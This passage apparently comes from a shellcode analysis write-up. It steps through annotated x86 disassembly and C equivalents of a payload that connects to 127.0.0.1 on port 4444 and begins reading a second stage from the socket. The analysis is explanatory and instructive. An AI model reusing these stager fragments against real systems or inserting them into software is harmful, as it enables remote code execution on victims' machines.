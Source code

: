 ```nasm
                            ; 2nd argument of connect(): pointer to sockaddr struct
0000001B  89E1              mov ecx,esp

                            ; syscall 102 (0x66): socketcall
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
```

```nasm
                            ; size of the sockaddr struct
00000020  50                push eax

                            ; Pointer to the sockaddr struct
00000021  51                push ecx

                            ; File Descriptor of the Server Socket
00000022  57                push edi

                            ; 2nd argument of socketcall(): pointer to arguments of connect()
00000023  89E1              mov ecx,esp
```

{% sidenote Based on the manual page of `socketcall`, `ECX` contains a pointer to the arguments for the function called, in this case `SYS_CONNECT`. %}

```nasm
                            ; 1st argument of socketcall(): SYS_CONNECT (EBX = 3)
00000025  43                inc ebx

00000026  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
struct sockaddr_in client_address;

client_address.sin_family = AF_INET;
inet_aton("127.0.0.1", &client_address.sin_addr);
client_address.sin_port = htons(4444);

connect(fd, (struct sockaddr *)&client_address, sizeof(client_address));
```

After that, data is read from the server:

```nasm
                            ; File Descriptor of the Server Socket
00000028  5B                pop ebx

00000029  99                cdq

                            ; EDX = 0x00000c00 (3072)
0000002A  B60C              mov dh,0xc
```

